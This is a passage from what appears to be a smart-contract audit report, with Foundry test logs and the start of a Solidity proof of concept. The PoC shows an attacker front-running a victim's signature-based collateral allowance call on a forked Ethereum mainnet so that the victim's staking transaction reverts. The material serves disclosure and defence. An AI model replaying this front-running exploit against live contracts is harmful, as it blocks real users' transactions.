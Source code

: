 \[FAIL. Reason: InvalidSignature(0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7)] testStake\_hacked() (gas: 123221) Logs: Setup Precondition for the test case Deploying TimeBasedCollateralPool Proxy contract that is VisibleBeaconProxy points to TimeBasedCollateralPool\_beacon Initialize TimeBasedCollateralPool contract Approve the TimeBasedCollateralPool\_contract as the collateralizable contract Balance of USDC before depositing: 10000000000 Approve the CollateralVault\_contract to spend USDC to deposit USDC Step: Deposit USDC to CollateralVault for the victim Attacker front-run the victim by calling modifyCollateralizableTokenAllowanceWithSignature of CollateralVault\_contract Victim stake to TimeBasedCollateralPool

Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 298.62ms (2.69ms CPU time)

Ran 1 test suite in 306.36ms (298.62ms CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests: Encountered 1 failing test in test/testTimeBasedCollateralPool.sol:testTimeBasedCollateralPool \[FAIL. Reason: InvalidSignature(0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7)] testStake\_hacked() (gas: 123221)

Encountered a total of 1 failing tests, 1 tests succeeded

\`\`\`

Full POC:

https://gist.github.com/Perseverancesuccess2021/5dd1ab799db0034872a7a436614092b8#file-testtimebasedcollateralpool-sol

\`\`\`solidity // SPDX-License-Identifier: UNLICENSED pragma solidity ^0.8.0;

import "forge-std/Test.sol"; import "forge-std/console.sol"; import "../src/TimeBasedCollateralPool.sol"; import "../src/CollateralVault.sol"; import "../src/VisibleBeaconProxy.sol"; import "@openzeppelin/contracts/utils/cryptography/EIP712.sol"; import {MessageHashUtils} from "@openzeppelin/contracts/utils/cryptography/MessageHashUtils.sol";

contract testTimeBasedCollateralPool is Test {

```
address USDC &#x3D; 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48; 
address CollateralVault_contract &#x3D; 0x5d2725fdE4d7Aa3388DA4519ac0449Cc031d675f; 
address TimeBasedCollateralPool_contract &#x3D; 0xd042C267758eDDf34B481E1F539d637e41db3e5a; 
address TimeBasedCollateralPool_beacon &#x3D; 0x1f00D6f7C18a8edf4f8Bb4Ead8a898aBDd9c9E14; 
address Owner &#x3D; address(0x11223344); 
address CollateralVault_owner &#x3D;  0x4eeB7c5BB75Fc0DBEa4826BF568FD577f62cad21; 
address Alice &#x3D; address(0x112233); 
address Attacker &#x3D; address(this);
address public victim;
uint256 public VictimPrivateKey; 

function setUp() public {
    vm.createSelectFork(&quot;https://rpc.ankr.com/eth&quot;, 21064787); // Oct-28-2024 02:40:23 PM +UTC
    VictimPrivateKey &#x3D; 0xa11ce; // This is just a sample, not important 
    victim &#x3D; vm.addr(VictimPrivateKey);
    deal(USDC,victim, 10000*10**6); 
    setup_precondition(); 
    
}

function deployContract() public {
    console.log(&quot;Deploying TimeBasedCollateralPool Proxy contract that is VisibleBeaconProxy points to TimeBasedCollateralPool_beacon&quot;);
    bytes memory data &#x3D; &quot;&quot;; 
    TimeBasedCollateralPool_contract  &#x3D;  address(new VisibleBeaconProxy(TimeBasedCollateralPool_beacon,data));
    
}

function initialize() public {
    console.log(&quot;Initialize TimeBasedCollateralPool contract&quot;);
```